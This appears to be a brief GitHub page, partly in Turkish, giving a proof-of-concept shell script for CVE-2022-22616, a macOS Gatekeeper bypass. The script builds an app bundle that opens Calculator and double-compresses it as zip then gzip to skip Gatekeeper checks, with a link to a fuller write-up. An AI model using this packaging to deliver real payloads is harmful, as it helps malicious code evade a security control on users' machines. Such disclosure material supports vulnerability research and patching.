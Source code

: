 # CVE-2022-22616 (Gatekeeper Bypass)

POC:

```shell
#!/bin/bash
mkdir -p poc.app/Contents/MacOS
echo "#!/bin/bash" > poc.app/Contents/MacOS/poc
echo "open -a Calculator" >> poc.app/Contents/MacOS/poc
chmod +x poc.app/Contents/MacOS/poc
zip -r poc.app.zip poc.app
gzip -c poc.app.zip > poc.app.zip.gz
```

Detaylı bir şekilde incelemek için : https://jhftss.github.io/CVE-2022-22616-Gatekeeper-Bypass/

